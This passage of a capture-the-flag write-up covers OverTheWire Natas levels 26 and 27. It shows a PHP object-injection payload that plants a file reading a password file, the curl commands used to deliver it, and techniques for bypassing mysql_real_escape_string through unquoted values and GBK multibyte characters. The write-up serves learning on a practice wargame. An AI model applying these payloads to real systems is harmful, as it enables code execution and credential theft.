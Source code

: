 So in order to get to this code, we juste have to create a cookie with the key `drawing` and a value. Let's try to crash test the app to see if it reacts as exepcted.
```bash
# set drawing to "love" and refresh the page
Notice: unserialize(): Error at offset 0 of 3 bytes in /var/www/natas/natas26/index.php on line 70
```
Boom, line 70, that's our vulnerable point.

So we need to create a serialized version of a `Logger` object, with custom `logFile` and `exitMsg` as they will be called in `__destruct()`;

Let's forge our payload in `payload.php`:
```php
<?php
class Logger{
  private $logFile = "img/hello.php";
  private $initMsg = "";
  private $exitMsg = "<?= file_get_contents('/etc/natas_webpass/natas27') ?>";
}
$x = new Logger();
echo base64_encode(serialize($x));
```
```php
$ php payload.php > payload
$ curl --user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T http://natas26.natas.labs.overthewire.org/ -b "drawing=$(cat payload)"
$ curl --user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T http://natas26.natas.labs.overthewire.org/img/hello.php
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```

Reference:
- http://php.net/manual/en/function.unserialize.php
- https://www.owasp.org/index.php/PHP_Object_Injection
- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/

### Level 27 - SQL trunc varchar
```
http://natas27.natas.labs.overthewire.org/ natas27 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```
The first obvious thing we all tried was to exploit `mysql_real_escape_string()` ([mysql_real_escape_string ref on php.net](http://php.net/manual/en/function.mysql-real-escape-string.php)). Buuuuuut it can only work with some conditions:
- non-quoted values, such as `"SELECT * from users where user=$user"`. If `$user="%"`, you pwned it. Links:
  - [Explications on StackOverflow](https://stackoverflow.com/a/5741264)
  - http://blackburnmoonlit.blogspot.com/2012/01/bypassing-mysqlescapestring-while-sql.html
- Have a multi-byte charset such as GBK. The hex value `0x27` is the literal quote `'`. The quote is going to be prefixed by hex `0x5c` (literal `\`). We juste have to find a multi-byte character ending with `0x5c`: `0x??27` will be replaced by `0x??5c27`. The GBK character `0x??5c` will be interpreted as 1 char, and won't escape `0x27`.
  - https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string
  